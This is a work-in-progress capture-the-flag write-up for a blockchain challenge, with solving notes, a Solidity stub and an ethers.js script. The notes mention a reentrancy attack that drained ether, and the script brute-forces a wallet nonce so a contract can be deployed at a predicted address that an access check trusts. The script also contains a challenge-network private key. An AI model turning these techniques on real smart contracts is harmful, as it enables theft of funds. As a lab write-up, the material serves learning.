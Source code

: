 NOTE: This writeup is still WIP. Here are some notes I took while solving the challenge, as well as any solve script(s)

* im new to blockchain chals (attended one workshop by Jin Kai during Greyhats summit) but number of solves told me this was probably easier than attempting the cloud path.
* Used metamask and online remix IDE, near the end used ethers.js and foundry for some scripts.

* reentrancy attack identified, got all the ether
* calling the startunlockinggate function fails
* nonce bruteforcing?
	* discovered nonce is # of transactions
* used ethers.js to run some stuff
* had to dig into source code and debug to get the script working
	* from a github issue realised i need to add `staticNetwork: true`
	* `batchMaxCount: 1` from deeper debugging
		* https://docs.ethers.org/v6/api/providers/jsonrpc/#JsonRpcApiProviderOptions
* ideas i had but which didnt work
  * maybe the unlockgate() function checks for a specific transaction nonce?
    * tried brute forcing with a script, didn't work
	* maybe we have to get the source code at address and reverse the unlockgate() function
  	* but there's no bytecode at the address
* initially assumed the addresses passed to Noncevigator were pre initialised contracts with a unlockgate() function, but no theres actually nothing there
* google search reveals that address of a contract is determined by the creator's address and nonce
* maybe I can deploy a contract at that pulauSemakau's address which implements the unlockgate method?
* recall from earlier research that delegatecall() lets the contract access the caller contract's properties


```solidity
contract Noncevigator2 {
    ... same as Noncevigator ...

    function unlockgate() public returns (bool) {
        isLocationOpen["pulauSemakau"] = true;
        return true;
    }
}
```

```javascript:getCorrectNonce.js
...

(async function getCorrectNonce() {
  const providerUrl = 'http://chals.tisc24.ctf.sg:47156/4b9d2cc3-bf30-4d9b-92ea-94e3e1c89d58';
  const privateKey = '0xec79e33eb5b2fad9aa9399a1316cfb007a78a1ba168add09172e59944b4d8bfd';
  const contractAddress = '0x07943A109602236A4942e34f4F082d2b6A8B974B';
  const targetAddress = '0x7d3eF26175F6483947941A3F6E74b7670bB5baF6';

  const provider = new ethers.providers.JsonRpcProvider(
    providerUrl,
    { name: 'tisc l6b', chainId: 1337 },
    {
      batchMaxCount: 1,
      staticNetwork: true,
    }
  );

  const wallet = new ethers.Wallet(privateKey, provider);
  let nonce;
  for (nonce = 0; nonce < 2000; nonce++) {
    const anticipatedAddress = ethers.utils.getContractAddress({
      from: wallet.address,
      nonce,
    });
    if (anticipatedAddress === targetAddress) {
      break;
    }
  }
  console.log('required nonce:' + nonce);
  const origNonce = await wallet.getTransactionCount();
  const contract = new ethers.Contract(contractAddress, abi, wallet);
  for (let i = 0; i < nonce - origNonce; i++) {
    try {
      await contract.getTreasureLocation('pulauSemakau');
      console.log(`Transaction ${i + 1} complete`);
    } catch (err) {
      console.error(`Error in transaction ${i + 1}:`, err);
    }
  }
  while ((await wallet.getTransactionCount()) < nonce) {
    await new Promise((resolve) => setTimeout(resolve, 100));
  }

  console.log('nonce is now as required: ' + nonce);

  return;
})();
```

![](/noncevigator_solve.jpeg)